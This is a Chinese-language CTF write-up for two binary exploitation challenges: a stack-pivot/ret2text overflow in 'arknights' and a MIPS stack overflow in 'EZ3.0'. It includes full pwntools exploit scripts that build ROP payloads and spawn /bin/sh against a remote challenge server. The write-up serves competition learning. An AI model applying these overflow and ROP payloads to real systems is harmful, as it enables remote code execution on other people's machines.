




## arknights

栈迁移+read读

先贴exp：

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'gz.imxbt.cn'
post = 20998
#p = process('./pwn')
p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
#gdb.attach(p)

pop_rdi = 0x00000000004018e5
leave = 0x0000000000401393
sys = 0x000000000401130
read = 0x0000000004018A8

p.sendline(b' ')
p.sendline(b'4')
p.sendline(b'1')
payload = b'a'*0x40+p64(elf.bss(0x408))+p64(read)
pause()
p.send(payload)
pause()
payload2 = b'/bin/sh\x00'*0x8+p64(0)+p64(pop_rdi)+p64(elf.bss(0x400-0x20))+p64(sys)
pause()
p.send(payload2)
pause()
p.sendline('exec 1>&0')
p.interactive()
```

前面抽卡那里没什么问题，直接跳过


这里可以看到`read(0,s,0x60)`这里存在栈溢出，溢出了0x20字节，并且执行`system`指令，那么我们的利用思路就很清晰了：

覆写rbp为bss段地址->利用read函数将`/bin/sh`写入`bss`段(这里vmmap看过了，bss段可写)->通过`pop rdi`执行`/bin/sh`

```python
payload = b'a'*0x40+p64(elf.bss(0x408))+p64(read)
```

`elf.bss(offset)`函数：返回值为`int`,为`.bss`段的地址，加上特定的offset。在这里就是返回到`bss段+0x408`的位置


这里调试可以看到，我们将rbp覆盖为了bss段某个地址，接下来就是执行read相关的指令，且read将读入的内容存放在`rbp-0x40`处

```python
payload2 = b'/bin/sh\x00'*0x8+p64(0)+p64(pop_rdi)+p64(elf.bss(0x400-0x20))+p64(sys)
```

接下来因为调用的还是这个`read(0,s,0x60)`，所以先填充0x40字节的`/bin/sh\x00`到bss段，接下来再次覆盖rbp为0，执行pop_rdi，弹出bss段+0x400-0x20处的内容

### 官方ret2text解

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'gz.imxbt.cn'
post = 20476
p = process('./pwn')
#p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
gdb.attach(p)

pop_rdi = 0x00000000004018e5
count = 0x000000000405BCC
sys = 0x0000000004018FC
# sh p64(26739)
payload = b'a'*0x48+p64(pop_rdi)+p64(count)+p64(sys)

def ck(n):
    p.recv()
    p.sendline(b'3')
    p.recv()
    p.sendline(str(n).encode())
    p.sendline(b'\n')

p.sendline(b'a')
ck(10000)
ck(10000)
ck(6739)

p.recv()
p.sendline(b'4')
p.recv()
p.sendline(b'1')
pause()
p.sendline(payload)
pause()
p.sendline(b'exec 1>&2')
p.interactive()
```



这里跟进`star()`函数



看到`sum_count`会根据抽卡次数加加

那么我们可以通过合理控制`sum_count`的值，使之变成`sh`

```python
❯ python3
Python 3.12.3 (main, Feb  4 2025, 14:48:35) [GCC 13.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> print(u64(b'sh'.ljust(8,b'\x00')))
26739
```

所以，后面就很简单了

## EZ3.0

mips架构，但是简单栈溢出，甚至有gadget

先贴exp：

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'gz.imxbt.cn'
post = 20860
#p = process('./pwn')
p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
#gdb.attach(p)

gadget = 0x0400A20
binsh = 0x0411010
door = 0x409c8
sys  =0x0400B70
payload = b'a'*32+b'a'*0x4+p32(gadget)+p32(0)+p32(sys)+p32(binsh)
p.sendline(payload)
p.interactive()
```




*ida竟然也能逆这个，还是太强大了*

一眼栈溢出，左边还有个`JustIsBackdoor`



源码一看，下面跟着就是`gadget`（不知道意思的话直接问问ai）

payload就很好写了，以下略
